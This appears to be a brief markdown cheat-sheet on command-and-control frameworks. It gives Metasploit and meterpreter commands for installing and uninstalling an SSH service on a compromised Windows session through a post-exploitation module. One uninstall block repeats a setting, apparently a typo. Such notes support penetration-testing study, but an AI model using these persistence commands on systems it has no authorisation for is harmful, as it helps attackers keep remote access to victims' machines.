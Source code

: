# C2 Frameworks

## 01 - Metasploit

TODO: Fill this info

### 1.1 - Install SSH Service

```
msf > use post/windows/manage/install_ssh

msf post(windows/manage/install_ssh) > options

msf post(windows/manage/install_ssh) > set session <session_ID>

msf post(windows/manage/install_ssh) > run
```

`meterpreter` one-liner post module command.

```
meterpreter > run post/windows/manage/install_ssh
```

### 1.2 - Uninstall SSH Service

```
msf post(windows/manage/install_ssh) > set session <session_ID>

msf post(windows/manage/install_ssh) > set install_client false

msf post(windows/manage/install_ssh) > set install_server false

msf post(windows/manage/install_ssh) > set uninstall_client true

msf post(windows/manage/install_ssh) > set uninstall_client true

msf post(windows/manage/install_ssh) > run
```

`meterpreter` one-liner post module command.

```
meterpreter > run post/windows/manage/install_ssh install_client=false install_server=false uninstall_client=true uninstall_server=true
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Install SSH Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/install_ssh.md)